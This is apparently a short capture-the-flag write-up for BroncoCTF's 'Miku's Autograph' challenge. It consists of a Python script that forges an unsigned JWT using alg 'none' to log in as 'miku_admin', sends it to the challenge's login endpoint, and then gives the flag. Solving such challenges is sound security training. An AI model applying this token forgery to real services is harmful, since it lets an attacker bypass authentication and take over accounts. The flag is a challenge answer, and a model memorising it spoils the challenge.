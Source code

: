 # Miku's Autograph [10 points] (287 solves)
```python
import base64
import json
import requests

header = {
    "alg": "none",
    "typ": "JWT"
}

payload = {
    "sub": "miku_admin",
    "exp": 9999999999
}


def b64url_encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).rstrip(b'=').decode()


forged_token = f"{b64url_encode(header)}.{b64url_encode(payload)}."

print(forged_token)

res = requests.post("https://miku.web.broncoctf.xyz/login",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'magic_token': forged_token}).text

print(res)
```

flag: `bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}`